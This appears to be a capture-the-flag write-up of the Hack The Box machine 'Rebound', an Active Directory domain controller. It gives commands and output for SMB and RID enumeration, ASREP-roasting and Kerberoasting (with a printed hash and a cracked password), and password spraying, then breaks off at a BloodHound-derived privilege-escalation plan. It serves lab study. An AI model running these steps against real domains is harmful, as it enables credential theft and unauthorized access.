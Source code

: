 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Rebound

## Summary

[Rebound](https://app.hackthebox.com/machines/560) is an <mark style="color:red;">insane-rated</mark> box

## Recon

### Information Gathering

Let's start with our [ritualistic nmap scan](../../../tools/tools/port-scanners/nmap.md#nmap-flow) (Figure 1).

```bash
nmap-scan.sh 10.10.11.231
Creating directory...
Performing initial scan...
Extracting ports...
Performing an aggresive scan on open ports...
All done! See results: less scans/aggressive_scan.nmap
```

<figure><img src="../../../.gitbook/assets/rebound_nmap (1).png" alt=""><figcaption><p>Figure 1: Services listening on the Rebound machine.</p></figcaption></figure>

Let's write some things down:

* Based on services like DNS (`53`), Kerberos (`88`) and LDAP (`3268`) we are dealing with a DC.
* The FQDN is `DC01.REBOUND.HTB`.
* SMB is available (`445`).
* WinRM is also available (`5985`). &#x20;

Our plan moving forwards would be to:

1. Add the hostname (`DC01`), domain (`REBOUND.HTB`), and FQDN (`DC01.REBOUND.HTB`) to our local DNS file (`/etc/hosts`).
2. See what information we can get out of the SMB server.
3. See what information we can get out of the LDAP server.

```bash
$ grep rebound /etc/hosts
10.10.11.231    dc01 rebound.htb dc01.rebound.htb
```

### Brute-Forcing RIDs

Quering the SMB server about its shares without passing any or using empty (`' '`) credentials does not work, but `guest` does the trick. There is just one non-default share (`Shared`) but its seems empty  (Figure 2).

{% code overflow="wrap" fullWidth="false" %}
```bash
# enumerating share access
nxc smb dc01 -u 'guest' -p '' --shares
# spidering the specified share
nxc smb dc01 -u 'guest' -p '' --spider Shared --regex .
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/rebound_nxc_shares.png" alt=""><figcaption><p>Figure 2: Enumerating and spidering SMB shares.</p></figcaption></figure>

Using the `--users` flag returns nothing, but we can always try brute-force RIDs (Figure 3).

<figure><img src="../../../.gitbook/assets/rebound_rid_bfa.png" alt=""><figcaption><p>Figure 3: Enumerating users using SMB.</p></figcaption></figure>

Only the last 3 lines of the above output are actual users, which is kind of odd. In addition, we can see that `fflock` has the RID of `3382` which is close to [NXC](../../../tools/tools/active-directory/netexec-cme.md)'s default max RID (`4000`). Let's increase that to see if more usernames pop up (Figure 4).

<pre class="language-bash"><code class="lang-bash"><strong>nxc smb dc01 -u 'guest' -p '' --rid-brute 10000
</strong></code></pre>

<figure><img src="../../../.gitbook/assets/rebound_rid_bfa_10k.png" alt=""><figcaption><p>Figure 4: Enumerating users while with RID up to 10000.</p></figcaption></figure>

We get back 10 more usernames, a total of 13! Let's create a username list.

```bash
# write NXC's output into a file
nxc smb dc01 -u 'guest' -p '' --rid-brute > nxc_users
# extract the usernames
cat nxc_users | awk '{print $6}' | awk -F'\' '{print $2}' | tail -n13
ppaul
llune
fflock
jjones
mmalone
nnoon
ldap_monitor
oorend
ServiceMgmt
winrm_svc
batch_runner
tbrady
delegator$
# extract and write the last 3 lines into a file
cat nxc_users | awk '{print $6}' | awk -F'\' '{print $2}' | tail -n13 > dom_users
```

### Kerberoasting with ASREP

The first thing we always do when we obtain valid domain usernames is to check if any of them are vulnerable to [ASREPRoasting](../../../tl-dr/tl-dr/active-directory/attacks/asreproasting.md).

{% code overflow="wrap" %}
```bash
nxc ldap dc01 -u dom_users -p '' --asreproast asreproast.lst
SMB         10.10.11.231    445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:rebound.htb) (signing:True) (SMBv1:False)
LDAP        10.10.11.231    445    DC01             $krb5asrep$23$jjones@REBOUND.HTB:5cd9a482dd659d184098afef05d268d4$82239f120ad02681021346c6a7b6d1f76ce6b0c0e1292206fd056a1136c52428b78d1e909944d8d633957bb76dd625afc4fcea0b48310b7b4861550c969c4392dfdfc6cbb36099b3e0fcf7e96f20011e2c36f1faf6b2b67877db5ad0a5922e984d3ea3e24cdfc33425028828007703f913a4232568cf4aff69d457443f418606f03fce800057b01bcac7f2ab8d54a9494206ac9937903b82ac9d85980db467d9d0fe373dcc6bc1ca2a72c85c4f2aa4e0e4f4b8bdfdef491c71e1f954be0288b02f12ed537234711537efa5dd1051a8aca7ec640f93f59e9fbf58179d1f0731e1ff3c1ebf859728b91776
```
{% endcode %}

It seems we get a hit! Sadly, [`hashcat`](../../../tools/tools/passwords/hashcat.md) is not able to crack it.

```bash
hashcat -m18200 asreproast.lst /usr/share/wordlists/rockyou
```

Typically, [Kerberoasting](../../../tl-dr/tl-dr/active-directory/attacks/kerberoasting.md) needs domain credentials, but according to [new research](https://www.semperis.com/blog/new-attack-paths-as-requested-sts/), it is possible to perform this attack using an ASREPRoastable account. In our case, we have `jjones`, so let's try it out (Figure 5).

{% code overflow="wrap" %}
```bash
# cloning impacket
sudo git clone https://github.com/fortra/impacket
Cloning into 'impacket'...
remote: Enumerating objects: 23474, done.
remote: Counting objects: 100% (48/48), done.
remote: Compressing objects: 100% (38/38), done.
remote: Total 23474 (delta 19), reused 27 (delta 10), pack-reused 23426
Receiving objects: 100% (23474/23474), 9.97 MiB | 9.29 MiB/s, done.
Resolving deltas: 100% (17811/17811), done.
# kerberoasting
sudo python3 /opt/impacket/examples/GetUserSPNs.py -no-preauth jjones -usersfile dom_users -dc-host 10.10.11.231 rebound.htb/ -outputfile kerb.txt
# checking output
cat kerb.txt
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/rebound_kerberoast.png" alt=""><figcaption><p>Figure 5: Kerberoasting without domain credentials!</p></figcaption></figure>

Luckily for us, `hashcat` is able to crack `ldap_monitor`'s account password this time.

{% code overflow="wrap" %}
```bash
hashcat -m13100 kerb.txt /usr/share/wordlists/rockyou
<SNIP>
$krb5tgs$23$*ldap_monitor$REBOUND.HTB$ldap_monitor*$fde<SNIP>bee:1GR8t@$$4u
<SNIP>
```
{% endcode %}

### Password Spraying

Unfortunately, this account does not have WinRM access. We can continue by performing a password spray attack to check if `ldap_monitor`'s password is being reused (Figure 6).

<figure><img src="../../../.gitbook/assets/rebound_pass_spray.png" alt=""><figcaption><p>Figure 6: Performing a password spray attack.</p></figcaption></figure>

It seems that this password is used in 3 different accounts, but none has WinRM access. Not much we can do with any of them, other than turn to [BloodHound](../../../tools/tools/active-directory/bloodhound.md).

### BloodHound

After some analysis, a path to the foothold is revealed (Figure 7).

{% code overflow="wrap" %}
```bash
nxc ldap dc01.rebound.htb -u ldap_monitor -p ldap_monitor_pass -k --bloodhound -ns 10.10.11.231 -c Group,LocalADmin,RDP,DCOM,Container,PSRemote,Session,Acl,Trusts,LoggedOn
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/rebound_bh.png" alt=""><figcaption><p>Figure 7: Analyzing domain data with BloodHound.</p></figcaption></figure>

Our plan is the following:

<table><thead><tr><th width="399">Rights</th><th>Action</th></tr></thead><tbody><tr><td><code>oorend</code> -> <a href="../../../tl-dr/tl-dr/active-directory/rights/addself.md"><code>AddSelf</code></a> over <code>ServiceMgmt</code></td><td>Add <code>oorend</code> to the <code>ServiceMgmt</code> group.</td></tr><tr><td><code>ServiceMgmt</code> -> <a href="../../../tl-dr/tl-dr/active-directory/rights/genericall.md"><code>GenericAll</code></a> over <code>Service Users</code></td><td>Change the password of <code>WinRM_svc</code>.</td></tr><tr><td><code>WinRM_svc</code> -> member of <code>Remote Management Users</code></td><td>Log into the machine via WinRM.</td></tr></tbody></table>
